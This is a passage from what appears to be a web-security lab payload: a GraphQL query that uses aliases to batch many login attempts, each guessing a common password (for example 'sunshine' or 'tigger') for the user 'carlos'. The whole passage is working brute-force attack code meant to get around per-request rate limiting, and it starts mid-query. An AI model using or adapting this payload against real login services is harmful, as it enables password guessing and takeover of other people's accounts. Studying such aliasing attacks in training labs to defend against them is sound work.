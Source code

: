 ```plain
        token
        success
    }


bruteforce38:login(input:{password: "hunter", username: "carlos"}) {
        token
        success
    }


bruteforce39:login(input:{password: "buster", username: "carlos"}) {
        token
        success
    }


bruteforce40:login(input:{password: "soccer", username: "carlos"}) {
        token
        success
    }


bruteforce41:login(input:{password: "harley", username: "carlos"}) {
        token
        success
    }


bruteforce42:login(input:{password: "batman", username: "carlos"}) {
        token
        success
    }


bruteforce43:login(input:{password: "andrew", username: "carlos"}) {
        token
        success
    }


bruteforce44:login(input:{password: "tigger", username: "carlos"}) {
        token
        success
    }


bruteforce45:login(input:{password: "sunshine", username: "carlos"}) {
        token
        success
    }


bruteforce46:login(input:{password: "iloveyou", username: "carlos"}) {
        token
        success
    }


bruteforce47:login(input:{password: "2000", username: "carlos"}) {
        token
        success
    }
```